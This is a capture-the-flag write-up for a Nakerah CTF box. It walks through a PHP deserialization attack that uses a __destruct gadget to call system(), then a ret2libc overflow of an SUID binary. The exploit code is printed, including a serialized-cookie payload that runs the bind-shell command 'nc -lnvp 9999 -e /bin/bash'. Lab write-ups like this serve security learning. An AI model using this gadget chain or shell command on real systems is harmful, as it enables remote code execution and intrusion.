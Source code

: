 <div align="center"><h1>Nakerah CTF </h1></div>
Peace, mercy and blessings of God 

today we are going to solve an interesting CTF from  [Nakerah!](www.nakerah.net)
>our goal is to read root's flag  
expolit will be devided into two missions first deserilization attack then ret2libc

so with all that being said; let's right jump in !!

# First mission

first we have that static page 

[logo]: img/1.png
![alt text](img/1.png "static page")

looking around source code nothing interested there 

[logo]: img/2.png
![alt text](img/2.png "source code")

so let's nmap it

[logo]: img/3.png
![alt text](img/3.png "nmap result")

as we see we have some other ports 
* 22 ssh we dont have any creds and it seems to be updated
* 25 smtp is filtered so we maybe come back to it later
* 80 http we already checked it

so lets visit port 8080 and see what behind the scene

[logo]: img/4.png
![alt text](img/4.png "port 8080")

just another blank page (: i get bored so let's gobuster it :XD

 [logo]: img/5.png
![alt text](img/5.png "gobuster")

 we have /backup file seems to be interesting let's dump it
 
 [logo]: img/6.png
![alt text](img/6.png "source code")

 after downloading the file it's php code 
 [logo]: img/7.png
![alt text](img/7.png "backup file")

 # analysis of code
 ```php
 class exCommand{
        public function __destruct(){
            system($this->command);
        }
    }
 ```
* here it creates an exCommand class and use a magic method `destruct` then pass the value of command propert to `system` function
Destruct is php magic method automatically called and allows you to perform some operations before destroying an object which will be our attack vector

```php
class Hello{
        private $name;
        private $role;
        private $isSet;
        public function check(){
           $this->isSet=isset($_COOKIE['name']);
        }
        
        }
    }
```

* here creating class Hello with some private properties and check function to verify if there's a cookie name  

```php
public function printHello(){
            if($this->isSet){
                echo "<br >" . $_COOKIE['name']."<br /><br /><br />";
                echo "Hello " . $this->name . "<br>";
                echo "your role is " . $this->role . "\n";
                echo "<br ><br ><br >";
            }else{
                echo "good";
            }
```

* another function `printHello` fisrt verify if there's a property isSet it will print our cookie, say hello to our cookie name and print our role but if not it will just print good

```php
$obj = unserialize($_COOKIE['name']);
$obj->check();
$obj->printHello();
```

* at last here it create an var, assign it's value to our deserialized cookie passing it to check and `printHello` functions

```console 
so  stay focus here 
it's `deserilization attack` and we need to pass our command to exCommand function which has that magic method
we have two problems 
first with exCommand class we used a property command without identifying it so in our exploit 
we will have to pass it to an object and  give it a vlaue
second problem  we have to bypass that cookie checks so let's write our exploit code
the trick here is if we bypass check function it will just print some staff 
if we try to target our exCommand class it will fail with check function so ...
```

so we will create `exCommand object`, identify command property with a value (our command) put it inside  `Hello calss` and selialize all that staff together

[logo]: img/ex.png
![alt text](img/ex.png "exploit code")

# code analysis:

```php
class exCommand{
   public function __destruct()}
   system($this->command);
   }
   }
 ```
 
* here we just create the same exCommand class,

```php
$x = new exCommand;
$x->command = "nc -lnvp 9999 -e /bin/bash";
create our object and give the command property our target command (bind shell)$y = new Hello;
class Hello{
        public $name;
        public $role;
        public $isSet;
        public $dummy;
}
```

* create class hello with some properites (dummy one is interesring just continue ..!)

```php
$y->name = "fady";
$y->role = "hacker";
$y->isSet = 1;
$y->dummy = $x;
print serialize($y);
```

* creating an oject of Hello class assining some values to properties and what interesting here it that `dummy propety` we gave it a value of  our `exCommand object` and finally serialize all that staff 

here is our final serialized data

[logo]: img/8.png
![alt text](img/8.png "serialized data")

and let's try connect

[logo]: img/9.png
![alt text](img/9.png "sending payload")

* and voila we get our shell 

[logo]: img/sh.png
![alt text](img/sh.png "spawingin a shell")

<div align="center"><h1>fisrt mission completed successfully</h1></div

---
---

# Second mission

in the root dir we got README file

[logo]: img/11.png
![alt text](img/11.png "static page")

>NX which stand for non-executable so here we know it's BOF expolit with ret2libc

after some enum we got that interesting suid file

[logo]: img/12.png
![alt text](img/12.png "static page")

so after getting it in our local machine to understand it better 

[logo]: img/13.png
![alt text](img/13.png "static page")

we can identify that NX is enables trying to run it gives seg fault after trying passing some args it just exit

[logo]: img/14.png
![alt text](img/14.png "static page")

so let's create our buffer with msf-patter-create and fire up gdb to get the exact offset

[logo]: img/15.png
![alt text](img/15.png "static page")

to get things more easily let's check ASLR in the vectim machine

[logo]: img/16.png
![alt text](img/16.png "static page")

and happy news  will make our life easier so hence we will work in our target machine to get some address

[logo]: img/17.png
![alt text](img/17.png "static page")

we got addresses of system and exit now we need address of /bin/sh

[logo]: img/18.png
![alt text](img/18.png "static page")

to get the exact address of /bin/sh in the run time we add its address to the starting of libc address

[logo]: img/19.png
![alt text](img/19.png "static page")

now our exploit is complete lets have a lock at it

[logo]: img/20.png
![alt text](img/20.png "static page")

now let's give it a try

[logo]: img/21.png
![alt text](img/21.png "static page")

```console
and finally i want to say to Nakerah team “You're the best.” 

and oxf1f1 “You knocked me off my feet!”
```

 
